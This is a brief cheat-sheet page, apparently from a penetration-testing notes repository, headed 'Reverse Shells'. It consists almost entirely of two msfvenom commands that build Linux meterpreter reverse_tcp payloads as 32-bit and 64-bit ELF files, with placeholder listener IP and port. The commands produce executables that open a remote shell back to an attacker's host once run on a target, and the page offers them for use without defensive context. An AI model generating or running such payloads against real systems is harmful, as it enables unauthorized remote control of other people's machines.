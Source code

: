 # Reverse Shells

x86 (32-bit) payload.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o payload-x86
```

x86-64 (64-bit) payload.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o payload-x64
```